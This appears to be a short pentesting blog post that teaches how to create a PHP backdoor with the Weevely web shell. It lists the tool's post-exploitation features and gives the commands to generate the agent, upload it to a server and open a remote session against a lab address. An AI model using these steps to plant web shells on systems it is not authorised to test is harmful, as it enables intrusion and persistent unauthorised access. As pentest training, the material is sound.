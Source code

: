 ```yaml
---
layout: post
title: PHP backdoor with Weevely
---
```

![](/images/2020-1-28-weevely/w.png)


In this tutorial we will create a backdoor by uploading PHP file on the server and gaining a backdoor.

Weevely comes pre-installed on kali-linux.

**Some other features of weevely include:**

•	Shell access to the target


•	SQL console pivoting on the target


•	HTTP proxy pivoting on the target


•	Upload and download files


•	Spawn reverse and direct TCP shells


•	Audit remote target security


•	Run Meterpreter payloads


•	Port scan pivoting on target


•	Mount the remote filesystem


•	Bruteforce SQL accounts pivoting on the target.



Weevely is a web shell designed for post-exploitation purposes that can be extended over the network at runtime.

Upload weevely PHP agent to a target web server to get remote shell access to it. It has more than 30 modules to assist administrative tasks, maintain access, provide situational awareness, elevate privileges, and spread into the target network.


**How to Generate a PHP Backdoor using Weevely?**
 
weevely generate <password> <path>

![](/images/2020-1-28-weevely/1.png)

Upload the 405.php to the sever. 


![](/images/2020-1-28-weevely/2.png)


To establish the session: 

weevely http://192.168.1.107/405.php 0xcf

![](/images/2020-1-28-weevely/3.png)


More on installation : [https://github.com/epinna/weevely3/wiki/Install](https://github.com/epinna/weevely3/wiki/Install)

Credit: MazenElzanaty @pentesttools
